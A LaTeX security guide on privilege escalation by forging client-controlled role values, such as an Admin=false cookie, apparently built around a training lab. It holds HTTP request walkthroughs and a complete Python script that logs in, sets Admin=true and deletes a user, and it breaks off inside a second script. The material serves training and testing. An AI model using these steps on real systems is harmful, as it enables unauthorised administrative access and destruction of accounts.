\documentclass[11pt,letterpaper]{article}

% ============================================================
% COMPREHENSIVE FIELD GUIDE: User Role Controlled by Request Parameter
% Broken Access Control - Client-Controlled Authorization State
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{parskip}

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.0,0.0}

% Robust inline code (handles %, _, #, etc.)
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With,X-User-Role,X-Admin},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports,document,window},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,cat,cd,chmod,cp,curl,echo,export,grep,head,kill,less,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,which,python,python3,pip,jq,awk,base64},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while,@PreAuthorize,@Secured},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{json}{
  morestring=[b]",
  morecomment=[l]{//},
  literate=
    {:}{{{\color{codeblue}{:}}}}{1}
    {,}{{{\color{codeblue}{,}}}}{1}
    {\{}{{{\color{codeblue}{\{}}}}{1}
    {\}}{{{\color{codeblue}{\}}}}}{1}
    {[}{{{\color{codeblue}{[}}}}{1}
    {]}{{{\color{codeblue}{]}}}}{1}
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{conceptbox}[1][]{
  colback=purple!5!white,
  colframe=purple!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% Legacy callout for compatibility
\newenvironment{callout}[1]{%
  \begin{tcolorbox}[colback=gray!10!white,colframe=gray!60!black,fonttitle=\bfseries,title=#1,breakable]
}{%
  \end{tcolorbox}
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\User Role Controlled by Request Parameter}\\[0.5em]
\large Broken Access Control---Forgeable Authorization State, Cookie Manipulation, and Privilege Escalation\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses a critical broken access control vulnerability: \textbf{user roles and privileges determined by client-controlled request parameters}. In this scenario, the application trusts forgeable input---such as cookies (\code{Admin=false}), query parameters (\code{role=user}), request body fields, or HTTP headers---to make authorization decisions. An attacker who can modify these parameters can escalate privileges, access administrative functionality, and perform high-impact actions.

This guide provides security professionals with:
\begin{itemize}
  \item Deep understanding of why trusting client-controlled authorization state fails
  \item Systematic discovery methodologies for identifying forgeable role parameters
  \item Complete manual exploitation workflows including CSRF token handling
  \item Production-ready automation scripts with session management
  \item Comprehensive coverage of parameter types: cookies, query strings, JSON bodies, headers
  \item Multi-framework remediation patterns with secure alternatives
  \item Testing checklists and evidence collection frameworks
\end{itemize}

\noindent\textbf{Key Insight:} This vulnerability represents a fundamental misunderstanding of the client-server trust boundary. The server is effectively asking the attacker: ``What privileges would you like to have?''
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical reference for identifying, exploiting, and remediating access control vulnerabilities where authorization decisions depend on client-controlled parameters. The guide emphasizes:

\begin{itemize}
  \item \textbf{Parameter identification techniques} across cookies, headers, query strings, and request bodies
  \item \textbf{Session and CSRF handling} for authenticated exploitation
  \item \textbf{Multiple exploitation vectors} for different parameter types
  \item \textbf{Secure architecture patterns} that eliminate the vulnerability class
\end{itemize}

\subsection{Vulnerability Classification}

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
CWE & CWE-639: Auth Bypass Through User-Controlled Key & \url{cwe.mitre.org} \\
CWE & CWE-284: Improper Access Control & \url{cwe.mitre.org} \\
CWE & CWE-807: Reliance on Untrusted Inputs & \url{cwe.mitre.org} \\
CVSS v3.1 & Typically High to Critical (8.0--9.8) & Context-dependent \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement
  \item Bug bounty programs where this testing is in scope
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal and may result in criminal prosecution.}
\end{warningbox}

% ============================================================
\section{Conceptual Foundation: The Trust Boundary Violation}
% ============================================================

\subsection{The Fundamental Security Invariant}

\begin{conceptbox}[Core Security Principle]
\textbf{Authorization decisions must never depend on attacker-controlled data without cryptographic integrity verification.}

If the server trusts a client-supplied value like \code{Admin=true} to grant privileges, it has delegated authorization decisions to the attacker.
\end{conceptbox}

\subsection{Understanding the Client-Server Trust Boundary}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  box/.style={rectangle, draw, rounded corners, minimum width=3cm, minimum height=1.2cm, align=center, font=\small},
  arrow/.style={-{Stealth[length=3mm]}, thick},
  danger/.style={rectangle, draw, dashed, red, thick, minimum width=2.5cm, minimum height=0.8cm, align=center, font=\small\color{red}}
]
  % Client side
  \node[box, fill=red!20] (client) at (0,0) {Client\\(Attacker-Controlled)};
  
  % Trust boundary
  \draw[thick, dashed, blue] (3.5,-2) -- (3.5,2) node[above, font=\small\color{blue}] {Trust Boundary};
  
  % Server side
  \node[box, fill=green!20] (server) at (7,0) {Server\\(Trusted)};
  
  % Data flow
  \draw[arrow] (client) -- node[above, font=\small] {Cookie: Admin=true} (server);
  
  % Danger zone
  \node[danger] at (3.5,-1.5) {DANGER ZONE};
  
  % Labels
  \node[below=0.5cm of client, text width=3cm, align=center, font=\footnotesize] {Can modify any\\request data};
  \node[below=0.5cm of server, text width=3cm, align=center, font=\footnotesize] {Must validate\\all input};
\end{tikzpicture}
\caption{The client-server trust boundary---anything from the client is attacker-controlled}
\end{figure}

\subsection{Why This Vulnerability Exists}

Developers create this vulnerability for several reasons:

\begin{enumerate}
  \item \textbf{Convenience over security}: Storing role in a cookie is ``simpler'' than server-side sessions
  \item \textbf{Misunderstanding HTTP}: Assuming cookies are tamper-proof or hidden from users
  \item \textbf{Legacy code}: Old systems predating modern authentication frameworks
  \item \textbf{Performance optimization}: Avoiding database lookups for role information
  \item \textbf{Stateless architecture misapplication}: Attempting stateless design without proper token signing
  \item \textbf{Copy-paste coding}: Reusing insecure patterns from tutorials or Stack Overflow
\end{enumerate}

\subsection{Types of Forgeable Role Parameters}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}llX@{}}
\toprule
\textbf{Parameter Type} & \textbf{Example} & \textbf{Manipulation Method} \\
\midrule
Cookie & \code{Admin=false} & Browser DevTools, Burp, curl \\
Query Parameter & \code{?role=admin} & Direct URL modification \\
POST Body (Form) & \code{role=admin} & Intercept and modify \\
POST Body (JSON) & \code{"isAdmin": true} & Intercept and modify \\
HTTP Header & \code{X-User-Role: admin} & Intercept and add/modify \\
Hidden Form Field & \code{<input type="hidden" name="role">} & Modify before submission \\
JWT (unsigned/weak) & \code{{"role":"admin"}} in payload & Decode, modify, re-encode \\
\bottomrule
\end{tabularx}
\caption{Common forgeable role parameter types}
\end{table}

\subsection{Impact Assessment}

Role-based privilege escalation typically has \textbf{critical} impact:

\begin{itemize}
  \item \textbf{Administrative access}: Full control over application functionality
  \item \textbf{User management}: Create, delete, modify any user account
  \item \textbf{Data access}: View, export, or delete sensitive data
  \item \textbf{Configuration changes}: Modify application settings, security controls
  \item \textbf{Lateral movement}: Use admin privileges to pivot to other systems
  \item \textbf{Compliance violations}: Unauthorized access to regulated data (PCI, HIPAA, GDPR)
\end{itemize}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

\subsection{Phase 1: Authentication and Cookie Analysis}

The first step is to authenticate and observe what cookies/parameters are set.

\subsubsection{Login and Observe Set-Cookie Headers}

\begin{lstlisting}[language=http,caption={Login request and response with role cookie}]
POST /login HTTP/1.1
Host: target.example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

csrf=TOKEN123&username=wiener&password=peter

-- Response --
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=xyz789; Secure; HttpOnly
Set-Cookie: Admin=false; Secure
\end{lstlisting}

\begin{tipbox}[Key Discovery Point]
Notice the \code{Set-Cookie: Admin=false} header. This is a strong indicator that the application uses a client-controlled cookie for authorization. The fact that it's explicitly set to \code{false} suggests it might be checked for \code{true}.
\end{tipbox}

\subsubsection{Cookie Analysis Checklist}

When analyzing cookies after authentication, look for:

\begin{itemize}
  \item \textbf{Boolean-looking values}: \code{admin=false}, \code{isAdmin=0}, \code{privileged=no}
  \item \textbf{Role names}: \code{role=user}, \code{userType=standard}, \code{access=basic}
  \item \textbf{Numeric levels}: \code{level=1}, \code{tier=0}, \code{permission=100}
  \item \textbf{Base64-encoded data}: May contain role information when decoded
  \item \textbf{JSON in cookies}: \code{userInfo=\{"role":"user"\}}
\end{itemize}

\subsubsection{Browser DevTools Cookie Inspection}

\begin{enumerate}
  \item Open DevTools (\kbd{F12})
  \item Navigate to Application tab $\rightarrow$ Storage $\rightarrow$ Cookies
  \item Examine all cookies for the domain
  \item Look for role-related names and values
  \item Note which cookies lack \code{HttpOnly} flag (directly editable)
\end{enumerate}

\subsection{Phase 2: Parameter Discovery in Requests}

\subsubsection{Query Parameter Analysis}

\begin{lstlisting}[language=http,caption={Checking for role in query parameters}]
-- Check if role parameter affects behavior --
GET /dashboard?role=admin HTTP/1.1
Host: target.example.com
Cookie: session=xyz789

GET /profile?isAdmin=true HTTP/1.1
Host: target.example.com
Cookie: session=xyz789

GET /api/user?privileges=all HTTP/1.1
Host: target.example.com
Cookie: session=xyz789
\end{lstlisting}

\subsubsection{Request Body Analysis}

\begin{lstlisting}[language=http,caption={Checking for role in request bodies}]
-- Form data --
POST /update-profile HTTP/1.1
Content-Type: application/x-www-form-urlencoded

name=John&email=john@example.com&role=admin

-- JSON data --
POST /api/user/update HTTP/1.1
Content-Type: application/json

{
  "name": "John",
  "email": "john@example.com",
  "isAdmin": true,
  "role": "administrator"
}
\end{lstlisting}

\subsubsection{Header Analysis}

\begin{lstlisting}[language=http,caption={Checking for role in custom headers}]
GET /admin HTTP/1.1
Host: target.example.com
Cookie: session=xyz789
X-User-Role: admin
X-Admin: true
X-Forwarded-User: administrator
\end{lstlisting}

\subsection{Phase 3: Behavioral Analysis}

\subsubsection{Compare Responses with Different Role Values}

\begin{lstlisting}[language=bash,caption={Comparing responses with curl}]
# Request with Admin=false
curl -s -b "session=xyz789; Admin=false" \
  https://target.example.com/my-account | grep -i "admin"

# Request with Admin=true  
curl -s -b "session=xyz789; Admin=true" \
  https://target.example.com/my-account | grep -i "admin"

# Compare response lengths
curl -s -b "session=xyz789; Admin=false" \
  https://target.example.com/my-account | wc -c

curl -s -b "session=xyz789; Admin=true" \
  https://target.example.com/my-account | wc -c
\end{lstlisting}

\subsubsection{Indicators of Successful Role Elevation}

\begin{itemize}
  \item New navigation elements appear (``Admin Panel'' link)
  \item Additional functionality becomes visible
  \item Response size increases significantly
  \item Different content/layout is rendered
  \item Access to previously forbidden endpoints (200 instead of 403)
\end{itemize}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

\subsection{Pre-Assessment Setup}

\subsubsection{Tool Configuration}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Intercept enabled for analyzing login flow
    \item Project file created for evidence retention
  \end{itemize}
  
  \item \textbf{Test Credentials}
  \begin{itemize}
    \item Standard user account (e.g., wiener:peter)
    \item Note any admin accounts for comparison testing
  \end{itemize}
\end{enumerate}

\subsection{Step 1: Login and Capture Cookies}

\begin{lstlisting}[language=http,caption={Step 1: Navigate to login page}]
GET /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<html>
<body>
<form method="POST" action="/login">
    <input type="hidden" name="csrf" value="TOKEN123ABC">
    <input name="username">
    <input name="password" type="password">
    <button>Log in</button>
</form>
</body>
</html>
\end{lstlisting}

\begin{notebox}[CSRF Token Requirement]
Note the CSRF token in the hidden field. This token must be extracted from the login page and included in the login POST request. Without it, the login will fail.
\end{notebox}

\subsection{Step 2: Submit Login with CSRF Token}

\begin{lstlisting}[language=http,caption={Step 2: Submit login credentials}]
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=initialSession123

csrf=TOKEN123ABC&username=wiener&password=peter

-- Response --
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=authenticatedSession456; Secure; HttpOnly
Set-Cookie: Admin=false; Secure
\end{lstlisting}

\begin{tipbox}[Critical Observation]
The server sets \code{Admin=false} cookie. This is the forgeable role parameter we will exploit. The server is telling us exactly how it determines admin status!
\end{tipbox}

\subsection{Step 3: Verify Normal User Access}

\begin{lstlisting}[language=http,caption={Step 3: Access account page as normal user}]
GET /my-account HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession456; Admin=false
User-Agent: Mozilla/5.0

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@example.com</p>
    <!-- No admin panel link visible -->
</div>
</body>
</html>
\end{lstlisting}

\subsection{Step 4: Modify Role Cookie and Test}

\begin{lstlisting}[language=http,caption={Step 4: Forge Admin cookie}]
GET /my-account HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession456; Admin=true
User-Agent: Mozilla/5.0

-- Response (with forged cookie) --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<a href="/admin">Admin panel</a>
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@example.com</p>
</div>
</body>
</html>
\end{lstlisting}

\begin{warningbox}[Privilege Escalation Confirmed]
The response now includes an ``Admin panel'' link that was not present before. By simply changing \code{Admin=false} to \code{Admin=true}, we have escalated privileges from a regular user to an administrator.
\end{warningbox}

\subsection{Step 5: Access Admin Panel}

\begin{lstlisting}[language=http,caption={Step 5: Access admin functionality}]
GET /admin HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession456; Admin=true
User-Agent: Mozilla/5.0

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<h1>Admin Panel</h1>
<div>
    <span>carlos</span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
    <span>wiener</span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
</body>
</html>
\end{lstlisting}

\subsection{Step 6: Execute Privileged Action}

\begin{lstlisting}[language=http,caption={Step 6: Delete user carlos}]
GET /admin/delete?username=carlos HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession456; Admin=true
User-Agent: Mozilla/5.0
Referer: https://0aXXXXXXXX.web-security-academy.net/admin

-- Response --
HTTP/1.1 302 Found
Location: /admin

-- Following redirect --
HTTP/1.1 200 OK
Content-Type: text/html

<h1>Admin Panel</h1>
<div>
    <span>wiener</span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<!-- carlos no longer listed - deletion successful -->
\end{lstlisting}

\subsection{Burp Suite Cookie Modification Methods}

\subsubsection{Method 1: Intercept and Modify}

\begin{enumerate}
  \item Enable intercept in Proxy tab
  \item Make a request in browser
  \item When request is intercepted, modify Cookie header
  \item Forward the modified request
\end{enumerate}

\subsubsection{Method 2: Using Repeater}

\begin{enumerate}
  \item Send any authenticated request to Repeater
  \item Modify the Cookie header value
  \item Click Send and analyze response
  \item Compare with original response
\end{enumerate}

\subsubsection{Method 3: Match and Replace Rules}

\begin{enumerate}
  \item Go to Proxy $\rightarrow$ Options $\rightarrow$ Match and Replace
  \item Add rule: Match \code{Admin=false}, Replace with \code{Admin=true}
  \item All requests will automatically have the cookie modified
\end{enumerate}

\subsubsection{Method 4: Browser DevTools}

\begin{enumerate}
  \item Open DevTools (\kbd{F12})
  \item Go to Application $\rightarrow$ Cookies
  \item Double-click the Admin cookie value
  \item Change \code{false} to \code{true}
  \item Refresh the page
\end{enumerate}

% ============================================================
\section{Automated Exploitation}
% ============================================================

\subsection{Complete Python Exploitation Script}

\begin{lstlisting}[language=python,caption={Full-featured exploitation script with CSRF handling}]
#!/usr/bin/env python3
"""
User Role Controlled by Request Parameter - Exploitation Script

This script:
1. Fetches the login page to obtain the CSRF token
2. Logs in as the provided user
3. Forges the Admin cookie to escalate privileges
4. Accesses the admin panel
5. Deletes the specified user

Usage: python3 exploit.py <BASE_URL> [--user <target_user>]
Example: python3 exploit.py https://lab.example.com --user carlos
"""

import sys
import re
import argparse
import requests
import urllib3
from bs4 import BeautifulSoup
from typing import Optional, Tuple

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Default credentials (lab pattern)
DEFAULT_USERNAME = "wiener"
DEFAULT_PASSWORD = "peter"


def banner():
    """Print script banner."""
    print("""
    +----------------------------------------------------------------+
    |  User Role Controlled by Request Parameter - Exploit Script    |
    |  For authorized security testing only                          |
    +----------------------------------------------------------------+
    """)


def get_csrf_token(session: requests.Session, url: str) -> Optional[str]:
    """
    Fetch a page and extract the CSRF token.
    
    Args:
        session: requests Session object
        url: URL to fetch
        
    Returns:
        CSRF token string or None if not found
    """
    try:
        response = session.get(
            url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        # Method 1: BeautifulSoup parsing
        soup = BeautifulSoup(response.text, 'html.parser')
        csrf_input = soup.find('input', {'name': 'csrf'})
        if csrf_input and csrf_input.get('value'):
            return csrf_input['value']
        
        # Method 2: Regex fallback
        match = re.search(r'name="csrf"\s+value="([^"]+)"', response.text)
        if match:
            return match.group(1)
        
        match = re.search(r'value="([^"]+)"\s+name="csrf"', response.text)
        if match:
            return match.group(1)
            
        return None
        
    except requests.RequestException as e:
        print(f"[-] Error fetching CSRF token: {e}")
        return None


def login(
    session: requests.Session,
    base_url: str,
    username: str,
    password: str
) -> Tuple[bool, Optional[str]]:
    """
    Log in to the application.
    
    Args:
        session: requests Session object
        base_url: Target base URL
        username: Login username
        password: Login password
        
    Returns:
        Tuple of (success: bool, session_cookie: str or None)
    """
    login_url = f"{base_url}/login"
    
    print(f"[*] Fetching login page for CSRF token...")
    csrf_token = get_csrf_token(session, login_url)
    
    if not csrf_token:
        print("[-] Failed to extract CSRF token")
        return False, None
    
    print(f"[+] CSRF token obtained: {csrf_token[:20]}...")
    
    print(f"[*] Logging in as '{username}'...")
    
    login_data = {
        'csrf': csrf_token,
        'username': username,
        'password': password
    }
    
    try:
        response = session.post(
            login_url,
            data=login_data,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        # Check for successful login indicators
        if 'Log out' in response.text or 'logout' in response.text.lower():
            session_cookie = session.cookies.get('session')
            print(f"[+] Successfully logged in as '{username}'")
            return True, session_cookie
        
        print("[-] Login failed - 'Log out' not found in response")
        return False, None
        
    except requests.RequestException as e:
        print(f"[-] Login request failed: {e}")
        return False, None


def check_admin_cookie(session: requests.Session) -> bool:
    """Check if an Admin cookie was set during login."""
    admin_cookie = session.cookies.get('Admin')
    if admin_cookie:
        print(f"[+] Admin cookie found: Admin={admin_cookie}")
        return True
    return False


def forge_admin_cookie(session: requests.Session) -> None:
    """Set the Admin cookie to 'true' to escalate privileges."""
    print("[*] Forging Admin cookie: Admin=true")
    session.cookies.set('Admin', 'true', path='/')


def access_admin_panel(
    session: requests.Session,
    base_url: str
) -> Tuple[bool, str]:
    """
    Access the admin panel with forged privileges.
    
    Args:
        session: requests Session with forged Admin cookie
        base_url: Target base URL
        
    Returns:
        Tuple of (success: bool, response_text: str)
    """
    admin_url = f"{base_url}/admin"
    print(f"[*] Accessing admin panel: {admin_url}")
    
    try:
        response = session.get(
            admin_url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        if response.status_code == 200:
            if 'admin' in response.text.lower() and 'delete' in response.text.lower():
                print("[+] Successfully accessed admin panel!")
                return True, response.text
            else:
                print("[?] Got 200 but content doesn't look like admin panel")
                return False, response.text
        elif response.status_code == 403:
            print("[-] Access forbidden (403) - cookie forgery may not work")
            return False, response.text
        else:
            print(f"[-] Unexpected status: {response.status_code}")
            return False, response.text
            
    except requests.RequestException as e:
        print(f"[-] Error accessing admin panel: {e}")
        return False, ""


def delete_user(
    session: requests.Session,
    base_url: str,
    username: str
) -> bool:
    """
    Delete a user via the admin panel.
    
    Args:
        session: requests Session with forged Admin cookie
        base_url: Target base URL
        username: Username to delete
        
    Returns:
        True if deletion succeeded
    """
    delete_url = f"{base_url}/admin/delete?username={username}"
    print(f"[*] Attempting to delete user '{username}'")
    print(f"[*] Delete URL: {delete_url}")
    
    try:
        response = session.get(
            delete_url,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        print(f"[*] Response status: {response.status_code}")
        
        if response.status_code == 200:
            if username.lower() not in response.text.lower():
                print(f"[+] SUCCESS: User '{username}' deleted!")
                return True
            
            if 'congratulations' in response.text.lower():
                print(f"[+] SUCCESS: Lab solved!")
                return True
        
        print(f"[-] Deletion may have failed")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Error during deletion: {e}")
        return False


def main():
    """Main execution flow."""
    banner()
    
    parser = argparse.ArgumentParser(
        description="User Role Controlled by Request Parameter - Exploit"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--user", "-u",
        default="carlos",
        help="Username to delete (default: carlos)"
    )
    parser.add_argument(
        "--login-user",
        default=DEFAULT_USERNAME,
        help=f"Login username (default: {DEFAULT_USERNAME})"
    )
    parser.add_argument(
        "--login-pass",
        default=DEFAULT_PASSWORD,
        help=f"Login password (default: {DEFAULT_PASSWORD})"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )
    
    args = parser.parse_args()
    
    # Normalize base URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url
    
    print(f"[*] Target: {base_url}")
    print(f"[*] Login as: {args.login_user}")
    print(f"[*] Target user to delete: {args.user}")
    
    # Configure session
    session = requests.Session()
    session.verify = False
    session.headers.update({
        'User-Agent': 'RoleParamExploit/2.0 (Security Testing)'
    })
    
    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")
    else:
        print(f"[*] Routing through proxy: {PROXIES['http']}")
    
    # Phase 1: Login
    print("\n" + "="*60)
    print("PHASE 1: Authentication")
    print("="*60)
    
    success, _ = login(session, base_url, args.login_user, args.login_pass)
    if not success:
        print("[-] Login failed. Exiting.")
        sys.exit(1)
    
    # Phase 2: Check for Admin cookie
    print("\n" + "="*60)
    print("PHASE 2: Cookie Analysis")
    print("="*60)
    
    if check_admin_cookie(session):
        print("[+] Vulnerable! Application uses forgeable Admin cookie")
    else:
        print("[*] No Admin cookie found - trying to add one anyway")
    
    # Phase 3: Forge Admin cookie
    print("\n" + "="*60)
    print("PHASE 3: Privilege Escalation")
    print("="*60)
    
    forge_admin_cookie(session)
    
    # Phase 4: Access admin panel
    print("\n" + "="*60)
    print("PHASE 4: Admin Panel Access")
    print("="*60)
    
    success, _ = access_admin_panel(session, base_url)
    if not success:
        print("[-] Failed to access admin panel. Exiting.")
        sys.exit(1)
    
    # Phase 5: Delete user
    print("\n" + "="*60)
    print("PHASE 5: Exploitation")
    print("="*60)
    
    success = delete_user(session, base_url, args.user)
    
    # Summary
    print("\n" + "="*60)
    print("SUMMARY")
    print("="*60)
    
    if success:
        print(f"""
[+] Vulnerability Confirmed: User Role Controlled by Request Parameter

    Forgeable Cookie: Admin=true
    Privilege Level: Administrator
    User Deleted: {args.user}
    
[+] The application trusts the client-supplied Admin cookie for authorization.
        """)
        sys.exit(0)
    else:
        print("[-] Exploitation may have failed. Check manually.")
        sys.exit(1)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Minimal Exploitation Script}

\begin{lstlisting}[language=python,caption={Simplified single-purpose script}]
#!/usr/bin/env python3
"""Minimal script for lab exploitation."""

import sys
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


def delete_carlos(base_url: str) -> bool:
    """Exploit role cookie vulnerability to delete carlos."""
    session = requests.Session()
    session.verify = False
    
    # Step 1: Get CSRF token from login page
